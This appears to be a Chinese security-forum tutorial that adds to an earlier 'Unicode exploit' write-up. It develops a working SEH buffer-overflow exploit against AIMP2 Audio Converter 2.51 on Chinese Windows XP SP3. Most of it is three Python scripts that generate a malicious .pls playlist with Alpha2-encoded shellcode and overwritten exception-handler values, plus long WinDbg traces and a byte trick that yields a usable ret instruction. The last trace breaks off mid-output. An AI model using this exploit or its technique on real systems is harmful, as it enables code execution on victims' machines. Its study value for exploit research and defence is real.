

# 对《编写 unicode exploit》一文的补充之二

> 原文：[`www.pediy.com/kssd/pediy12/126344.html`](https://www.pediy.com/kssd/pediy12/126344.html)

标题：对《编写 unicode exploit》一文的补充之二  
作者：wingdbg  
主页：http://wingdbg.blog.com/  
  
《编写 Unicode Exploit》原文地址：http://bbs.pediy.com/showthread.php?t=120637  
《编写 unicode exploit 一文的补充之一》（by riusksk（泉哥））：http://bbs.pediy.com/showthread.php?t=121281  
  
一、背景  
    在学习完泉哥翻译的《Exploit 编写系列教程第七篇：编写 Unicode Exploit》之后，又学习了泉哥补充的《编写 unicode exploit 一文的补充》，在教程中所给的两个例子中，泉哥通过第一个漏洞实例（ Xion Audio Player 1.0 build 121）   说明 ret(hex: C3)指令在经过 Unicode 拷贝之后，不会变成 C300。（参见 https://www.blackhat.com/presentations/win-usa-04/bh-win-04-fx.pdf）  
    泉哥在补充一文中发现这是由于原作者在实验时采用 xp sp3 en 版本的系统，unicode codepage / language/regional settings 的不同，直接导致我们在自己的中文 XP SP3 机器上转换时，C3 无法转换为 C300，从而导致溢出 payload 的失败。  
  
二、目的  
    笔者认为在中文 XP SP3 上机器由 ASCII 转化成 UNICODE 的结果，并不简简单单是由于 unicode codepage / language/regional settings 的不同。字符的转化还跟字符所在字符串有关系。  
    在此种假设之下，也许我们通过输入不同类型的字符串，会导致转换后的结果有出现 C3 的可能，从而导致我们跳转到 Unicode Shellcode 成功。  
    如果我们实验成功，我们可以进一步探讨 ASCII 字符（从'\\x00'到'\\xFF'）在 XP SP3 cn 中文机器上到底是如何转换成为 Unicode 的。是什么原因直接导致了它和英文系统转换对应的不同。同时，也是对 Unicode Exploit 的一种补充。  
  
三、实验  
    实验环境：  
    XP SP3 pro 中文版  
    WinDbg 6.12.2.633 X86（http://download.csdn.net/source/2519777）   
    Immunity Debugger 1.73（www.shandongkv.com/123/ImmunityDebugger\_setup1.73.rar）  
    pvefindaddr 插件（www.shandongkv.com/123/pvefindaddr.rar）  
      
    漏洞软件：  
    AIMP2 Audio Converter 2.51 build 330（www.shandongkv.com/123/aimp\_2.51.330.zip）  
  
   闲话少说，看代码：  

代码:

```
#-------------------------------------------------------------------------------
# Name:        AIMP2 Audio Converter 2.51 build 330 Unicode 缓冲区溢出
# Purpose:      study unicode stack vulnerability
#
# Author:      wingdbg
#
# Created:     09-12-2010
# Copyright:   (c) wingdbg 2010
# Licence:     <wingdbg@gmail.com>
#-------------------------------------------------------------------------------
#!/usr/bin/env python

def main():
    header = '\[playlist\]\\nNumberOfEntries=1\\n\\n'
    header = header + 'File1='
    junk = 'A' \* 101   # this make sure that after SEH is executed as commands, EDI+0x500 points to shellcode

    #calc.exe
    shellcode  = "PPYAIAIAIAIAQATAXAZAPA3QADAZA"
    shellcode += "BARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA"
    shellcode += "58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABAB"
    shellcode += "AB30APB944JBKLK8U9M0M0KPS0U99UNQ8RS44KPR004K"
    shellcode += "22LLDKR2MD4KCBMXLOGG0JO6NQKOP1WPVLOLQQCLM2NL"
    shellcode += "MPGQ8OLMM197K2ZP22B7TK0RLPTK12OLM1Z04KOPBX55"
    shellcode += "Y0D4OZKQXP0P4KOXMHTKR8MPKQJ3ISOL19TKNTTKM18V"
    shellcode += "NQKONQ90\*\*\*Q8OLMKQY7NXK0T5L4M33MKHOKSMND45JB"
    shellcode += "R84K0XMTKQHSBFTKLL0KTK28MLM18S4KKT4KKQXPSYOT"
    shellcode += "NDMTQKQK311IQJPQKOYPQHQOPZTKLRZKSVQM2JKQTMSU"
    shellcode += "89KPKPKP0PQX014K2O4GKOHU7KIPMMNJLJQXEVDU7MEM"
    shellcode += "KOHUOLKVCLLJSPKKIPT5LEGKQ7N33BRO1ZKP23KOYERC"
    shellcode += "QQ2LRCM0LJA"

    moreJunk = 'A' \* (4037 - len(junk + shellcode))

    nSEH = '\\x61\\x62'   #---0x00340012
    SEH = '\\x34\\x46'    #---0x00460034  X:\\Program Files\\AIMP2\\AIMP2.dll  pop ecx - pop ebp - ret

    preShell  = '\\x6e'      #废指令 ADD BYTE PTR DS:\[ESI\],CH
    preShell += '\\x57'      #push edi
    preShell += '\\x6e'
    preShell += '\\x58'      #pop eax
    preShell += '\\x6e'
    preShell += '\\x05\\x16\\x11'  #add eax, 0x011001600
    preShell += '\\x6e'
    preShell += '\\x2d\\x11\\x11'  # sub  eax,0x11001100
    preShell += '\\x6e'
    preShell += '\\x50'          #push eax
    preShell += '\\x6e'
    preShell += '\\xC3'          #ret

    dump ='\\x41' \* (297- len(preShell))   #---dump that is longer is useless
    payload = header + junk + shellcode + moreJunk + nSEH + SEH + preShell + dump +'\\n'

    o\_file = open('aimp2sploit.pls','w')
    o\_file.write(payload)
    o\_file.close()

if \_\_name\_\_ == '\_\_main\_\_':
    main()

```

    和泉哥在补充一中所讲的问题一样，代码中红色标记的'\\xC3'在转化成 Unicode 时并没有像我们预想的那样转化成为'\\xC3\\x00'。如 WinDbg 调试器下的情况：  
代码:

```
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=001b5668 ebx=00000000 ecx=001a4220 edx=00000ebf esi=001a421e edi=00130000
eip=00453020 esp=0012dcac ebp=0012dd64 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00210202
\*\*\* WARNING: Unable to verify checksum for C:\\Program Files\\AIMP2\\AIMP2.dll
\*\*\* ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\\Program Files\\AIMP2\\AIMP2.dll - 
AIMP2!SysutilsWideFormatBuf$qqrpvuipxvuipx14SystemTVarRecxi+0x3c:
00453020 66ab            stos    word ptr es:\[edi\]        es:0023:00130000=6341
0:000> !exchain
0012fda0: AIMP2!VariantsVarToInteger$qqrrx8TVarData+4fc (00460034)
Invalid exception stack at 00620061
0:000> d 0012fda0
0012fda0  61 00 62 00 34 00 46 00-6e 00 57 00 6e 00 58 00  a.b.4.F.n.W.n.X.
0012fdb0  6e 00 05 00 16 00 11 00-6e 00 2d 00 11 00 11 00  n.......n.-.....
0012fdc0  6e 00 50 00 6e 00 81 80\-41 00 41 00 41 00 41 00  n.P.n...A.A.A.A.
0012fdd0  41 00 41 00 41 00 41 00-41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.
0012fde0  41 00 41 00 41 00 41 00-41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.
0012fdf0  41 00 41 00 41 00 41 00-41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.
0012fe00  41 00 41 00 41 00 41 00-41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.
0012fe10  41 00 41 00 41 00 41 00-41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.

```

    细心的读者也许已经发现，‘C3’并没有像泉哥在补充一中所说的那样，变成‘8880’。在本例构造的 payload 中，它已然变成了‘8180’（代码中红色标记）。这说明，我们的假设很可能是成立的。  
    如果我们任其走下去，通过 SEH 的 pop|pop|ret 运行到 nSEH，最后想跳转到我们通过 Alpha2 编码的 shellcode 是不可能的。看 WinDbg 调试情况：  
代码:

```
0:000> bp 00460034
0:000> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=00460034 edx=7c9232bc esi=00000000 edi=00000000
eip=00460034 esp=0012d8dc ebp=0012d8fc iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
AIMP2!VariantsVarToInteger$qqrrx8TVarData+0x4fc:
00460034 59              pop     ecx
0:000> t
eax=00000000 ebx=00000000 ecx=7c9232a8 edx=7c9232bc esi=00000000 edi=00000000
eip=00460035 esp=0012d8e0 ebp=0012d8fc iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
AIMP2!VariantsVarToInteger$qqrrx8TVarData+0x4fd:
00460035 5d              pop     ebp
0:000> t
eax=00000000 ebx=00000000 ecx=7c9232a8 edx=7c9232bc esi=00000000 edi=00000000
eip=00460036 esp=0012d8e4 ebp=0012d9c4 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
AIMP2!VariantsVarToInteger$qqrrx8TVarData+0x4fe:
00460036 c3              ret
0:000> t
eax=00000000 ebx=00000000 ecx=7c9232a8 edx=7c9232bc esi=00000000 edi=00000000
eip=0012fda0 esp=0012d8e8 ebp=0012d9c4 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
0012fda0 61              popad
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d998 edi=0012d9e0
eip=0012fda1 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
0012fda1 006200          add     byte ptr \[edx\],ah          ds:0023:0012d9ac=64
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d998 edi=0012d9e0
eip=0012fda4 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200203
0012fda4 3400            xor     al,0
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d998 edi=0012d9e0
eip=0012fda6 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200282
0012fda6 46              inc     esi
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fda7 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200206
0012fda7 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=b1
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdaa esp=0012d908 ebp=0012fda0 iopl=0         nv up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200282
0012fdaa 57              push    edi
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdab esp=0012d904 ebp=0012fda0 iopl=0         nv up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200282
0012fdab 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=e3
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdae esp=0012d904 ebp=0012fda0 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200203
0012fdae 58              pop     eax
0:000> t
eax=0012d9e0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdaf esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na po cy
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200203
0012fdaf 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=15
0:000> t
eax=0012d9e0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdb2 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200206
0012fdb2 0500160011      add     eax,offset bass+0x1600 (11001600)
0:000> t
eax=1112efe0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdb7 esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
0012fdb7 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=47
0:000> t
eax=1112efe0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdba esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
0012fdba 2d00110011      sub     eax,offset bass+0x1100 (11001100)
0:000> t
eax=0012dee0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdbf esp=0012d908 ebp=0012fda0 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200202
0012fdbf 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=79
0:000> t
eax=0012dee0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdc2 esp=0012d908 ebp=0012fda0 iopl=0         ov up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200a82
0012fdc2 50              push    eax
0:000> t
eax=0012dee0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdc3 esp=0012d904 ebp=0012fda0 iopl=0         ov up ei ng nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200a82
0012fdc3 006e00          add     byte ptr \[esi\],ch          ds:0023:0012d999=ab
0:000> t
eax=0012dee0 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d999 edi=0012d9e0
eip=0012fdc6 esp=0012d904 ebp=0012fda0 iopl=0         nv up ei ng nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200286
0012fdc6 81804100410041004100 add dword ptr image00400000+0x10041 (00410041)\[eax\],offset image00400000+0x10041 (00410041) ds:0023:0053df21=fc858b2a

```

    盼望的 ret 指令并没有出现，而是出现了由 81804100410041004100 反汇编而成的怪诞指令。真是郁闷啊。  
    这时我们自然想按照泉哥在补充一中的方法，不通过跳转，而是通过一系列没有负面影响的指令最终“走”到 shellcode。可是读者观察我们的 payload 代码可以发现，SEH 后面允许加的字符长度是有限的（见黄色标记部分）。这就杯具了，只有 281 个字符可用（如果再多，读者可以测试，直接截断，根本没有拷贝进来）。由于我们 shellcode 是通过 Alpha2 编码的，从而保证转化成 Unicode 后能够正常执行，所以长度不可避免的可能超过这个。（当然，有牛牛真写出来小于 281 字符我也拜服）  
    这可怎么办呢，只好把 shellcode 放在 nSEH 之前的一堆 junk 里面（差不多 4000 个字符长度呢）。可是问题又来了，push eax| ret 式的跳转我们是没法用的啊，为啥，因为 C3 无法正常转换！  
    这时我们开始想，汇编里面都有哪些可以实现跳转的代码指令呢。我所知道的，如下：  
    FFE?: jmp e?x  
    C2???: retn ???  
    C3:   retn  
    ……  
  
    看来我们不得不尝试我们事先的假设，通过构造一系列的字符串，查看转换后的字符串中是否有上面的二进制串。如果我们找到了，哪怕它前面有一些不相干的指令，只要没有副作用，我们就成功啦。现在我们编写测试 payload 的代码：  
代码:

```
#-------------------------------------------------------------------------------
# Name:        AIMP2 Audio Converter 2.51 build 330 Unicode 缓冲区溢出
# Purpose:      study unicode stack vulnerability
#
# Author:      wingdbg
#
# Created:     09-12-2010
# Copyright:   (c) wingdbg 2010
# Licence:     <wingdbg@gmail.com>
#-------------------------------------------------------------------------------
#!/usr/bin/env python
def buildstr():
    i = 0x70
    j = 0x70
    string = chr(i) + chr(j)
    while i < 0xff:
        j = 0x70
        while j <0xff:
            j = j + 1
            string = string + chr(i) + chr(j)
        i = i +1
    return string

def main():
    header = '\[playlist\]\\nNumberOfEntries=1\\n\\n'
    header = header + 'File1='
    junk = 'A' \* 101   # this make sure that after SEH is executed as commands, EDI+0x500 points to shellcode

    #calc.exe
    shellcode  = "PPYAIAIAIAIAQATAXAZAPA3QADAZA"
    shellcode += "BARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA"
    shellcode += "58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABAB"
    shellcode += "AB30APB944JBKLK8U9M0M0KPS0U99UNQ8RS44KPR004K"
    shellcode += "22LLDKR2MD4KCBMXLOGG0JO6NQKOP1WPVLOLQQCLM2NL"
    shellcode += "MPGQ8OLMM197K2ZP22B7TK0RLPTK12OLM1Z04KOPBX55"
    shellcode += "Y0D4OZKQXP0P4KOXMHTKR8MPKQJ3ISOL19TKNTTKM18V"
    shellcode += "NQKONQ90\*\*\*Q8OLMKQY7NXK0T5L4M33MKHOKSMND45JB"
    shellcode += "R84K0XMTKQHSBFTKLL0KTK28MLM18S4KKT4KKQXPSYOT"
    shellcode += "NDMTQKQK311IQJPQKOYPQHQOPZTKLRZKSVQM2JKQTMSU"
    shellcode += "89KPKPKP0PQX014K2O4GKOHU7KIPMMNJLJQXEVDU7MEM"
    shellcode += "KOHUOLKVCLLJSPKKIPT5LEGKQ7N33BRO1ZKP23KOYERC"
    shellcode += "QQ2LRCM0LJA"

    moreJunk = 'A' \* (4037 - len(junk + shellcode))

    nSEH = '\\x61\\x62'   #---0x00340012
    SEH = '\\x34\\x46'    #---0x00460034  X:\\Program Files\\AIMP2\\AIMP2.dll  pop ecx - pop ebp - ret

    preShell  = '\\x6e'      #废指令 ADD BYTE PTR DS:\[ESI\],CH
    preShell += '\\x57'      #push edi
    preShell += '\\x6e'
    preShell += '\\x58'      #pop eax
    preShell += '\\x6e'
    preShell += '\\x05\\x16\\x11'  #add eax, 0x011001600
    preShell += '\\x6e'
    preShell += '\\x2d\\x11\\x11'  # sub  eax,0x11001100
    preShell += '\\x6e'
    preShell += '\\x50'          #push eax
    preShell += '\\x6e'
#    preShell += '\\xC3'          #ret

#    dump ='\\x41' \* (297- len(preShell))   #---dump that is longer is useless
    dump0 = buildstr();
    dump = dump0\[0:282\]  #接下来可以为\[282:282\*2\]……

    payload = header + junk + shellcode + moreJunk + nSEH + SEH + preShell + dump +'\\n'

    o\_file = open('aimp2sploit.pls','w')
    o\_file.write(payload)
    o\_file.close()

if \_\_name\_\_ == '\_\_main\_\_':
    main()

```

  
    稍微解释一下，这个程序无非就是尝试尽可能多的字符串，然后查找有无可能存在跳转指令对应的二进制。基于我们的假设，我们认为转换 Unicode 不仅仅诸如 codepage 之类的系统参数有关，也跟特定字符所在的整个字符串有关。而且通过泉哥的补充一我们已经知道，'\\x7F'之后转换就开始不规则了，那么我们就拼凑字符串，从'\\x70'开始，让其最终成为"\\x70\\x70\\x70\\x71\\x70\\x72...\\x70\\xFE\\x70\\xFF\\x71\\x70\\x71\\x71\\x72...\\x71\\xFF......\\xFF\\x70\\xFF\\x71...\\xFF\\xFE\\xFF\\xFF"这样的字符串。我们按照 282 长度（我们把最后的'C3'去掉了，如黄色部分所示）把它分成若干子串，让其代替 dump（如第二个红色部分所示），看其转化，搜索可能存在的跳转指令二进制。最终，我们在字符串区间\[562:843\]发现转化后出现了我们需要的东西：C3！（payload 文件下载：aimp2sploit.rar）  
    看 WinDbg：  
代码:

```
(71c.8bc): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=0015beb0 ebx=00002000 ecx=0000000e edx=0012fdc4 esi=0071006a edi=0000001b
eip=770f48a4 esp=0012dd64 ebp=0012dd68 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00210202
oleaut32!SysFreeString+0x45:
770f48a4 8b0e            mov     ecx,dword ptr \[esi\]  ds:0023:0071006a=????????
\*\*\* WARNING: Unable to verify checksum for C:\\Program Files\\AIMP2\\AIMP2.dll
\*\*\* ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\\Program Files\\AIMP2\\AIMP2.dll - 
0:000> !exchain
0012fda0: AIMP2!VariantsVarToInteger$qqrrx8TVarData+4fc (00460034)
Invalid exception stack at 00620061
0:000> d 0012fda0
0012fda0  61 00 62 00 34 00 46 00-6e 00 57 00 6e 00 58 00  a.b.4.F.n.W.n.X.
0012fdb0  6e 00 05 00 16 00 11 00-6e 00 2d 00 11 00 11 00  n.......n.-.....
0012fdc0  6e 00 50 00 74 e0 1b 00-d4 9d 6e 9e f4 9e 6b 9f  n.P.t.....n...k.
0012fdd0  36 e8 f5 f8 72 00 71 00-72 00 72 00 72 00 73 00  6...r.q.r.r.r.s.
0012fde0  72 00 74 00 72 00 75 00-72 00 76 00 72 00 77 00  r.t.r.u.r.v.r.w.
0012fdf0  72 00 78 00 72 00 79 00-72 00 7a 00 72 00 7b 00  r.x.r.y.r.z.r.{.
0012fe00  72 00 7c 00 72 00 7d 00-72 00 7e 00 72 00 7f 00  r.|.r.}.r.~.r...
0012fe10  72 00 ac 20 72 00 7a 4e-fd 4f f9 50 45 52 79 53  r.. r.zN.O.PERyS
0:000> s 0012fe10 L100 C3
0012fea6  c3 84 46 85 c3 85 32 86-c2 86 66 87 eb 87 66 88  ..F...2...f...f.
0012feaa  c3 85 32 86 c2 86 66 87-eb 87 66 88 f7 88 6f 89  ..2...f...f...o.

```

    红色部分表明，我们构造的字符串最终出现了 C3（如代码中红色部分），这给我们带来了极大的希望，我们现在所想的是，尽量减少它和 preShell 结尾的距离，最好是 50 00（如代码中黄色部分） 之后直接是 C3 ?? ??。那样就大功告成啦！  
    在不断对构造字符串进行调整（从字符串头部小心翼翼的删除，逐渐靠近转换后的 C3）之后，我们最终发现，‘\\x72\\xcb\\x72’会转换成'\\x72\\x00\\xc3\\x85\\x41\\x00'。OK，我们重新修改 payload 构造代码：  
代码:

```
#-------------------------------------------------------------------------------
# Name:        AIMP2 Audio Converter 2.51 build 330 Unicode 缓冲区溢出 final
# Purpose:      study unicode stack vulnerability
#
# Author:      wingdbg
#
# Created:     10-12-2010
# Copyright:   (c) wingdbg 2010
# Licence:     <wingdbg@gmail.com>
#-------------------------------------------------------------------------------
#!/usr/bin/env python

def main():
    header = '\[playlist\]\\nNumberOfEntries=1\\n\\n'
    header = header + 'File1='
    junk = 'A' \* 101   # this make sure that after SEH is executed as commands, EDI+0x500 points to shellcode

    #calc.exe
    shellcode  = "PPYAIAIAIAIAQATAXAZAPA3QADAZA"
    shellcode += "BARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA"
    shellcode += "58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABAB"
    shellcode += "AB30APB944JBKLK8U9M0M0KPS0U99UNQ8RS44KPR004K"
    shellcode += "22LLDKR2MD4KCBMXLOGG0JO6NQKOP1WPVLOLQQCLM2NL"
    shellcode += "MPGQ8OLMM197K2ZP22B7TK0RLPTK12OLM1Z04KOPBX55"
    shellcode += "Y0D4OZKQXP0P4KOXMHTKR8MPKQJ3ISOL19TKNTTKM18V"
    shellcode += "NQKONQ90\*\*\*Q8OLMKQY7NXK0T5L4M33MKHOKSMND45JB"
    shellcode += "R84K0XMTKQHSBFTKLL0KTK28MLM18S4KKT4KKQXPSYOT"
    shellcode += "NDMTQKQK311IQJPQKOYPQHQOPZTKLRZKSVQM2JKQTMSU"
    shellcode += "89KPKPKP0PQX014K2O4GKOHU7KIPMMNJLJQXEVDU7MEM"
    shellcode += "KOHUOLKVCLLJSPKKIPT5LEGKQ7N33BRO1ZKP23KOYERC"
    shellcode += "QQ2LRCM0LJA"

    moreJunk = 'A' \* (4037 - len(junk + shellcode))

    nSEH = '\\x61\\x62'   #---0x00340012
    SEH = '\\x34\\x46'    #---0x00460034  X:\\Program Files\\AIMP2\\AIMP2.dll  pop ecx - pop ebp - ret

    preShell  = '\\x6e'      #废指令 ADD BYTE PTR DS:\[ESI\],CH
    preShell += '\\x57'      #push edi
    preShell += '\\x6e'
    preShell += '\\x58'      #pop eax
    preShell += '\\x6e'
    preShell += '\\x05\\x16\\x11'  #add eax, 0x011001600
    preShell += '\\x6e'
    preShell += '\\x2d\\x11\\x11'  # sub  eax,0x11001100
    preShell += '\\x6e'
    preShell += '\\x50'          #push eax
    preShell += '\\x6e'
    preShell += '\\x72\\xcb\\x72'  #ret 转换成'\\x72\\x00\\xc3\\x85\\x41\\x00'

    dump ='\\x41' \* (297- len(preShell))   #---dump that is longer is useless

    payload = header + junk + shellcode + moreJunk + nSEH + SEH + preShell + dump +'\\n'

    o\_file = open('aimp2sploit.pls','w')
    o\_file.write(payload)
    o\_file.close()

if \_\_name\_\_ == '\_\_main\_\_':
    main()

```

    代码红色部分是关键，它替换了之前的'\\xC3'。我们运行 Python 代码，生成播放文件，用 WinDbg 调试，如下：  
代码:

```
(c74.708): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=001b5668 ebx=00000000 ecx=001a4220 edx=00000ebf esi=001a421e edi=00130000
eip=00453020 esp=0012dcac ebp=0012dd64 iopl=0         nv up ei pl nz na po nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00210202
\*\*\* WARNING: Unable to verify checksum for C:\\Program Files\\AIMP2\\AIMP2.dll
\*\*\* ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\\Program Files\\AIMP2\\AIMP2.dll - 
AIMP2!SysutilsWideFormatBuf$qqrpvuipxvuipx14SystemTVarRecxi+0x3c:
00453020 66ab            stos    word ptr es:\[edi\]        es:0023:00130000=6341
0:000> !exchain
0012fda0: AIMP2!VariantsVarToInteger$qqrrx8TVarData+4fc (00460034)
Invalid exception stack at 00620061
0:000> d 0012fda0
0012fda0  61 00 62 00 34 00 46 00-6e 00 57 00 6e 00 58 00  a.b.4.F.n.W.n.X.
0012fdb0  6e 00 05 00 16 00 11 00-6e 00 2d 00 11 00 11 00  n.......n.-.....
0012fdc0  6e 00 50 00 6e 00 72 00-c3 85 41 00 41 00 41 00  n.P.n.r...A.A.A.
0012fdd0  41 00 41 00 41 00 41 00-41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.
0012fde0  41 00 41 00 41 00 41 00-41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.
0012fdf0  41 00 41 00 41 00 41 00-41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.
0012fe00  41 00 41 00 41 00 41 00-41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.
0012fe10  41 00 41 00 41 00 41 00-41 00 41 00 41 00 41 00  A.A.A.A.A.A.A.A.
0:000> bp 00460034
0:000> g
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=00460034 edx=7c9232bc esi=00000000 edi=00000000
eip=00460034 esp=0012d8dc ebp=0012d8fc iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
AIMP2!VariantsVarToInteger$qqrrx8TVarData+0x4fc:
00460034 59              pop     ecx
0:000> t
Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=00460034 edx=7c9232bc esi=00000000 edi=00000000
eip=00460034 esp=0012d8dc ebp=0012d8fc iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
AIMP2!VariantsVarToInteger$qqrrx8TVarData+0x4fc:
00460034 59              pop     ecx
0:000> t
eax=00000000 ebx=00000000 ecx=7c9232a8 edx=7c9232bc esi=00000000 edi=00000000
eip=00460035 esp=0012d8e0 ebp=0012d8fc iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
AIMP2!VariantsVarToInteger$qqrrx8TVarData+0x4fd:
00460035 5d              pop     ebp
0:000> t
eax=00000000 ebx=00000000 ecx=7c9232a8 edx=7c9232bc esi=00000000 edi=00000000
eip=00460036 esp=0012d8e4 ebp=0012d9c4 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
AIMP2!VariantsVarToInteger$qqrrx8TVarData+0x4fe:
00460036 c3              ret
0:000> t
eax=00000000 ebx=00000000 ecx=7c9232a8 edx=7c9232bc esi=00000000 edi=00000000
eip=0012fda0 esp=0012d8e8 ebp=0012d9c4 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00200246
0012fda0 61              popad
0:000> t
eax=0012d9c4 ebx=0012fda0 ecx=7c92327a edx=0012d9ac esi=0012d998 edi=0012d9e0
